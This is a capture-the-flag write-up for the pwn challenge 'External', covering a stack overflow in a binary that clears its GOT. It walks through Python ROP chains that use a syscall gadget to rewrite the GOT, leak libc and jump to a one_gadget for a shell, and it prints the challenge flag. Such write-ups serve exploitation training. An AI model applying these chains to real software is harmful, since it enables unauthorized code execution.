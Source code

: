 ## External 
#### Description
No description.

#### Author
M_alpha

#### Points and solves
467 points and 69 solves.

We are given a binary, that reads out input, clears the GOT table and somehow we need to get a shell.

```c
undefined8 main(void)
{
  undefined buff [80];
  puts("ROP me ;)");
  printf("> ");
  read(0,buff,0xf0);
  clear_got();
  return 0;
}
```

The function ```clear_got``` does exactly what we expect it to do, it uses ```memeset``` to set the entire GOT to 0.

In addition, we have a very usefull gadget in one of the setup functions:
```asm
00401283 0f 05      SYSCALL
00401285 c3         RET
```

### The vulnerability
It is obvious we can overflow ```buff``` and like in the challenge ```echo```,
we keep out eyes peeled for a way to abuse the syscall gadaget.

However, is it not a trivial rop chain, because we can't immediatly return to ```plt``` functions.
So, after a quick research about dynamic linking, I figured out the following, 
the GOT entry for any function, say ```printf```, by default is pointing to ```plt.printf + 0x6```
At that address lays the dynamic linking routine for ```printf```.
If we can set all the zeroed GOT entries to some resolving function in the ```plt``` section, we can reload the GOT entries.


### 1. Setting up conditions for restoring the GOT:
```python
payload = p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(got_start) + p64(0) + p64(syscall_ret) +\
p64(elf.sym.main)
payload = 0x58*b"A"+payload
p.sendline(payload)
```
We have a rop chain that loads ```rdi = 0, rsi = &GOT``` and returns to a syscall, and to main afterwards.
Since main returns 0, by the time we are executing the rop chain ```rax``` is 0, which is the syscall number for ```read```.
At the time we syscall, we will actually read back into the GOT table.

### 2. Rewriting GOT table:
The GOT entries in the binary are in the following order: [puts, setbuf, printf, memset, alarm, read, signal]
```python
payload = p64(elf.sym.plt["puts"]+6) + p64(elf.sym.plt["setbuf"]+6) + p64(elf.sym.plt["puts"]+6) +\
	p64(elf.sym.plt["puts"]+6) + p64(elf.sym.plt["alarm"]+6) + p64(elf.sym.plt["read"]+6) +\
	p64(elf.sym.plt["signal"]+6)
p.sendline(payload)
```
So, we load the appropriate ```plt``` values into the GOT, but we can't just load them the same way, 
because memset will zero them again, so we just patch the GOT entry for memset with ```plt.puts```.
Now, by the time we return to ```main``` the function will resolve their addresses based on the ```plt``` values that are in the GOT tablle.


### 3. Leak libc:
We now have a "stable" binary that won't erase the GOT on us, and we can just leak libc with a simple rop chain:
```python
payload = p64(pop_rdi) + p64(elf.sym.got["puts"]) + p64(elf.sym.plt["puts"]) + p64(elf.sym.main)
```

### 4. Get shell:
We have a one_gadget at ```0x448a3``` offset, we can just return to that with another rop chain.
```python
p.sendline(0x58*b"C" + p64(libc.address + one_shot_offset) + b"\x00"*0x100) 
```

#### Flag
```flag{0h_nO_My_G0t!!!!1111!1!}```
